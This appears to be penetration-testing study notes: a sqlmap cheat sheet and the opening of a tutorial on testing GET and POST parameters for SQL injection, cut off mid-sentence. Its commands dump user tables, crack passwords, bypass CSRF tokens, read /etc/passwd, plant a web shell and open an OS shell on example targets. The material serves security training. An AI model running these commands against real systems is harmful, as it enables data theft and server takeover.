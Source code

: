 | `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch` | Specify verbosity level                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"` | Specifying a prefix or suffix                               |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`             | Specifying the level and risk                               |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb` | Table enumeration                                           |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Table/row enumeration                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`          | Database schema enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`  | Searching for data                                          |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch` | Password enumeration and cracking                           |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass                                      |
| `sqlmap --list-tampers`                                      | List all tamper scripts                                     |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba` | Check for DBA privileges                                    |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"` | Reading a local file                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file                                              |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`        | Spawning an OS shell                                        |

> To run SQLMap against this example, located at the example URL http://www.example.com/vuln.php?id=1, would look like the following:

```bash
s3curityguy@htb[/htb]$ sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```

where --batch is used to skip all the interactive questions

>By pasting the clipboard content (Ctrl-V) into the command line, and changing the original command curl to sqlmap, we are able to use SQLMap with the identical curl command:
```bash
s3curityguy@htb[/htb]$ sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```
### GET/POST Requests

> In the most common scenario, GET parameters are provided with the usage of option -u/--url, as in the previous example. As for testing POST data, the --data flag can be used, as follows:

```bash
s3curityguy@htb[/htb]$ sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

>In such cases, POST parameters uid and name will be tested for SQLi vulnerability. For example, if we have a clear indication that the parameter uid is prone to an SQLi vulnerability, we could narrow down the tests to only this parameter using -p uid. Otherwise, we could mark it inside the provided data with the usage of special marker * as follows:
